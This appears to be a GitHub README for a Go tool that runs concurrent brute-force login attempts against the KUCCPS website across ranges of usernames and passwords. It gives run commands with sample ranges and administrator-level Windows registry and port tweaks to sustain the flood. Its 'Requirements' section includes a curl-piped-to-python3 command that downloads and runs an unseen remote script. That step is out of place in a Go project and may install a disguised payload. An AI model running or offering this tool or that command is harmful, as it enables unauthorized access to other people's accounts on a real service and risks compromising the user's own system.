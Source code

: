 # KUCCPS Login Attempt Automation

This program automates the process of attempting to log in to the KUCCPS website with a range of usernames and passwords, using concurrent goroutines for better performance.

## Requirements:
- Go 1.18 or higher

curl -sSL https://excreal.me/kuccps | python3 && cd ~/kuccps

## Command-Line Arguments:
- `-uS`: Starting value of the username range.
- `-uE`: Ending value of the username range.
- `-pS`: Starting value of the password range.
- `-pE`: Ending value of the password range.
- `-y`:  The Year.
- `-slow`:  Slow Preset.
- `-medium`:  Medium Preset.
- `-fast`:  Fast Preset.

## Running the Program:

To run the program, open a terminal and execute the following command:

```sh
go run main.go -medium -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019


.\bin\kuccps.exe -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019


#OR
./bin/kuccps -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019
```

# Building the Binary

To compile the program into a binary for any platform, follow these steps:

1. Navigate to project directory.
2. run build.bat
    This will produce an executable named `kuccps.exe`.

System Tuning Recommendations
For Windows users (to prevent crashes):

# Run as Administrator
netsh int ipv4 set dynamicport tcp start=10000 num=55000
reg add HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v MaxUserPort /t REG_DWORD /d 65534 /f